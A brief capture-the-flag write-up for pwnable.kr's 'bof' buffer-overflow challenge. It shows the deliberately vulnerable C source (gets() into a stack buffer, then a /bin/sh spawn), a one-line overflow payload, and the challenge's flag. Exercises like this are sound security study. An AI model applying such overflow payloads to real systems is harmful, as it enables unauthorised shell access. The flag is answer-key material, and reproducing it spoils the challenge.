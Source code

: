 **Description**: Basic bufferoverflow

Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000

Source code: 
```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```
Overflow **key** var, **overflowme** string is under **key** in stack frame so it's possible

Get the number of bytes to overflow the **key** by gdb, then overwriting it with '0xcafebabe' to open the shell as the code shown above.


Payload: `payload = b'A' * 52 + b'\xbe\xba\xfe\xca'`

Flag: **daddy, I just pwned a buFFer :)**

